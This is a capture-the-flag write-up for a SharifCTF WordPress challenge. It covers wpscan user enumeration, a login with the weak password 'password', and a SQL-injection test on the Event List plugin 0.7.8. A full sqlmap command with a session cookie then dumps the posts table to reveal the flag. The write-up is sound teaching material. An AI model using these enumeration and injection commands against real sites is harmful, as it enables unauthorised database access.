 The news hacker
===============

## Task description
Only admin can see the flag :)
Hint: Weak password!


## Initial analysis
The site under the url provided in the challenge is a news blog.

![](https://i.imgur.com/5rFFoiW.png)

Inspecting the source, we find out that the site is powered by Wordpress.

![](https://i.imgur.com/YmfvcXJ.png)

Indeed, after trying to access `/wp-admin/`, we are redirected to the Wordpress login page.

![](https://i.imgur.com/WMrJj6z.png)

## Bypassing authentication
The hint in the challenge description mentions a weak password, but sadly attemping to bruteforce the `admin` account yields no results. After checking the wordpress version and all of its plugins, several vulnerabilities are found, but all of them require to be authenticated.

Perhaps there is another user that we could authenticate as? Let's fire up `wpscan` and find out. The wpscan command to enumerate users is `wpscan --url http://8082.ctf.certcc.ir/ --enumerate u`. This gets us the following results.

![](https://i.imgur.com/NGtaHx1.png)

We found another user besides admin: `organizer`. After trying to log in with the most obvious password: `password`, we are successfully logged in.

![](https://i.imgur.com/HKqseL8.png)

## Exploiting outdated plugins
After logging in and probing around, nothing of interest can be found in the admin panel. It looks like our user doesn't have access to anything worth using. However, we are now authenticated, so it should be possible to exploit one of the vulnerabilities in the outdated plugins. 

After trying a few of them out, only one seems to be working. It's in the Event List Plugin version 0.7.8: [exploit-db description](https://www.exploit-db.com/exploits/42173/).

The `http://8082.ctf.certcc.ir/wp-admin/admin.php?page=el_admin_main&action=edit&id=1` gets us the event page.

![](https://i.imgur.com/KMw0cCy.png)

But `http://8082.ctf.certcc.ir/wp-admin/admin.php?page=el_admin_main&action=edit&id=1 AND 1=2` does not.

![](https://i.imgur.com/g4uPToF.png)

## SQL Injection
We have a confirmed SQL injection vulnerability, so let's sqlmap do the rest of the work. We are able to get the password hash for the `admin` user from the database, but attemps at cracking it don't yield any results. However, after looking at the wordpress posts table, the flag can be found in one of the posts.

The sqlmap command to retrieve the posts table is as follows (the cookie is taken from the browser):

```
sqlmap -u "http://8082.ctf.certcc.ir/wp-admin/admin.php?page=el_admin_main&action=edit&id=1" -p id --cookie="wordpress_eb2a34d2fb7f6ae7debb807cd7821561=organizer%7C1518169483%7Cm59DKLrouqZJTsIQAa9RKgsYDQqLzyrUB854ah0ddKi%7Cdc6d61fcc29fe8bd1a6c334dbf2bbf6ea3e9e5683eed4d095883e8b650d2bf82" -D wp_blog -T wp_posts --columns --dump
```

After inspecting the resulting csv table dump, a following line is found:

```
25,http://10.0.3.189/?p=25,<blank>,<blank>,2018-01-08 04:14:21,post,flag,0,Flag,private,0,open,1,Flag is SharifCTF{e7134abea7438e937b87608eab0d979c},<blank>,2018-01-08 04:14:21,2018-01-08 10:58:41,0,<blank>,<blank>,open,2018-01-08 10:58:41,<blank>
```

The line contains the flag: `SharifCTF{e7134abea7438e937b87608eab0d979c}`.

